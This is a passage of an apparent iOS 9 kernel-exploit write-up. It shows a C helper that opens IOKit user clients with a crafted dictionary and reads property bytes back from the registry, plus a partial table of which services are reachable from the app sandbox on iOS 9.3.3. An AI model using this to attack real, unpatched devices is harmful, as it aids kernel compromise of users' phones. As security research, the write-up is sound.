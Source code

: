         void io_get_prop(char *serviceName, void *dict, size_t dictlen, char *key, void *buf, uint32_t *buflen)
        {
            mach_port_t master;
            io_service_t service;
            io_connect_t client;
            kern_return_t err;
            io_iterator_t it;

            host_get_io_master(mach_host_self(), &master);
            service = IOServiceGetMatchingService(master, IOServiceMatching(serviceName));
            io_service_open_extended(service, mach_task_self(), 0, NDR_record, dict, dictlen, &err, &client);
            IORegistryEntryCreateIterator(service, "IOService", kIORegistryIterateRecursively, &it);
            IORegistryEntryGetProperty(IOIteratorNext(it), key, buf, buflen);
            IOServiceClose(client);
        }

    Note that the first element of the iterator isn't necessarily the one you're looking for (likeliness of this happening depends on `serviceName` - but you shouldn't rely on it). So mark your dicts with something identifiable, e.g. your username as a key somewhere, and always iterate over all elements in the registry.

    *The full implementation of this can be found in [`io.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/io.c).*

    Also note that the choice of `serviceName` is critical - only a subset of all services allow access from within the sandbox, and only very few of those allow the retrieving of property bytes.  
    I wrote a little tool that iterates over all possible service names I could find (`strings - kernel | grep 'UserClient$'`) and prints whether:

    - The service is valid (`IOServiceGetMatchingService` returns success)
    - The service is accessible (`io_service_open_extended` returns success)
    - Property bytes can be read back on `OSString`s and `OSNumber`s

    Running it inside the sandbox in an unjailbroken environment (you'll have to pack it into an App for that), we get:

    iPhone8,4 on 9.3.3:

        Service name                                                    Valid       Spawn               num str

        AGXShared                                                       ---         ---                   0 ---
        ASP                                                             ---         ---                   0 ---
        AppleARMIIC                                                     ---         ---                   0 ---
        AppleAVE                                                        ---         ---                   0 ---
        AppleAuthCP                                                     ---         ---                   0 ---
        AppleBCMWLAN                                                    ---         ---                   0 ---
        AppleBaseband                                                   yes         ---                   0 ---
        AppleBiometricServices                                          yes         ---                   0 ---
        AppleCredentialManager                                          yes         ---                   0 ---
        AppleD5500                                                      yes         ---                   0 ---
        AppleEffaceableStorage                                          yes         ---                   0 ---
        AppleEmbeddedPCIE                                               yes         ---                   0 ---
        AppleH2CamIn                                                    ---         ---                   0 ---